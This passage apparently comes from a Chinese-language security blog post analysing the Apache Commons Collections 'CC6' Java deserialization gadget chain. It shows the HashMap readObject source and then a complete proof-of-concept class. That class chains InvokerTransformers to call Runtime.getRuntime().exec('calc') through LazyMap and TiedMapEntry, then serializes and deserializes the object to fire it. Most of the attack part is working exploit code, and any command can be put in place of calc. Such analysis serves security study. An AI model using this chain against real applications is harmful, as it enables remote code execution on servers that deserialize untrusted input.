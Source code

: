 ```java
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);
        @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
                K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```

可以看到`putVal(hash(key), key, value, false, false);`正好调用了hash函数，只要保证反序列化时mapping的值大于0，就能走到这一步。

到此利用链完成。

Poc

```java
public class cc6 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer("1")
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);
        
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, 1);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, 1);
        cc1_poc.serialize(hashMap);
        cc1_poc.unserialize("s.ser");
    }
}
```


[11111]: https://blog.csdn.net/weixin_45436292/article/details/140068299?spm=1001.2014.3001.5501